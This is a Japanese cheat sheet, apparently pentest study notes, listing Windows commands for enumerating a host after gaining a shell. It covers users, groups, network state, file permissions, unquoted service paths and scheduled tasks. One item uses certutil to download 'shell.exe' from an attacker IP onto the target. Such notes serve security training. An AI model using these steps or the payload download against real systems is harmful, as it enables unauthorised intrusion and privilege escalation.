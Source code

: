 # Command Prompt

1. ホスト名\ユーザ名をターゲット上で取得する
```
whoami
```

2. シェルを取っている端末のユーザがどこのグループに属しているかを確認する。現在のユーザが属するグループをすべて表示する。
```
whoami /groups
```

3. 他の全てのローカルユーザのリストを取得する
```
net user
```

4. ホスト上の既存のグループを列挙する
```
net localgroup
```

5. OSのバージョンとアーキテクチャを取得する
```
systeminfo
```

6. 全てのネットワークインターフェースを表示する
```
ipconfig /all
```

7. 全てのルーティングテーブルを取得する
```
route print
```

8. 全てのアクティブなネットワーク接続のリストを取得する。  
-a => 全てのアクティブなTCP接続とTCP、UDPポートを表示する。
-n => 名前解決を無効にする  
-o => 各接続のプロセスIDを表示する
```
netstat -ano
```

9. バイナリに対応するプリンシパルとアクセス許可を出力する
```
icacls "C:\xampp\apache\bin\httpd.exe"
```
icaclsの権限は以下の通り  
MASK	PERMISSIONS  
F	Full access  
M	Modify access  
RX	Read and execute access  
R	Read-only access  
W	Write-only access  

10. Unquoted-Serviceの脆弱性がある可能性のあるサービスとバイナリファイルのパスを列挙する。
```
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```

11. スケジュールされているすべてのタスクを確認する。  
/fo => 引数にLISTを渡してリスト形式の出力を得る  
/v => タスクのすべてのプロパティを表示する
```
schtasks /query /fo LIST /v
```

12. apphostsvcというサービスに対してクエリを送り、サービスの状態を確認する。
```
sc qc apphostsvc
```

13. LOLBASでcertutilを使ってファイルをダウンロードする。
```
certutil -urlcache -f http://192.168.45.216:80/shell.exe shell.exe
```

14. powershellへのアクセスが無いみたいな安定しないシェルでpowershell直接ぶったたくときとかに使える。
```
where powershell
```